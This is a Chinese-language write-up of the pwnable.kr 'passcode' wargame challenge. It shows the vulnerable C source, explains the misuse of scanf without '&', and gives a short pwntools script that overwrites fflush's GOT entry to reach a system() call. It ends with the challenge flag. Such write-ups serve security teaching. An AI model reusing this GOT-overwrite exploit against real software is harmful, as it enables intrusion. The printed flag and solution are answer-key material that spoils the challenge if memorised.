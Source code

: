 # passcode - 10pt

## 问题描述

Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)

## 源码分析

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}

```

程序首先要求输入name，而后输入passcode1和passcode2。而在scanf()中并没有用取地址符&，因此直接输入338150或13371337会导致地址访问错误

## 解题思路

这里我们可以覆盖passcode1的值，将passcode1修改为fflush().got之后，传入system("/bin/cat flag")即可实现向fflush().got写入system函数地址，这样在第一次调用fflush()时便会跳转到system()获取shell
```python
#!/usr/bin/python

from pwn import *
p = ssh(host='pwnable.kr',port=2222,user='passcode',password='guest').run('/home/passcode/passcode')
context.log_level = 'debug'

got_fflush = 0x0804a004
system_addr = 0x080485e3

payload = "\x90" * 0x60 + p32(got_fflush) + str(system_addr)

p.sendline(payload)
p.interactive()
```

## flag

Sorry mom.. I got confused about scanf usage :(

